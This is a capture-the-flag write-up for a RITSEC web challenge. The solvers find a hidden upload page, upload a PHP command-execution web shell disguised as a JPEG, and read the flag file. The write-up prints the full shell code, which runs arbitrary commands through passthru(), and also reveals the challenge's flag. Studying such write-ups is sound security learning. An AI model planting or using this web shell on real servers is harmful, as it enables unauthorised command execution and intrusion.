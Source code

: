 #### Challenge:

http://ctfchallenges.ritsec.club:8003/

Flag format is `RS_CTF{}`

---

#### Solution:

Checking the provided site, we are presented with something that is supposed to be photo gallery in the future. In the source code of the site we found comment: `<!-- upload and photos not yet linked --` which hints that `http://ctfchallenges.ritsec.club:8003/upload.php` exists. We tried to upload the file found at [https://github.com/jgor/php-jpeg-shell/blob/master/shell.php](https://github.com/jgor/php-jpeg-shell/blob/master/shell.php) (see the code below) as `.jpeg` and got `reverse shell`. After some fooling around we do `cat /home/flag.txt` and Bob's your uncle.

```php
����
<form action="" method="get">
Command: <input type="text" name="cmd" /><input type="submit" value="Exec" />
</form>
Output:<br />
<pre><?php passthru($_REQUEST['cmd'], $result); ?></pre>
```

---

<details><summary>FLAG:</summary>

```
RS_CTF{FILE_UPLOAD_ISN'T_SECURE}
```

</details>
<br/>

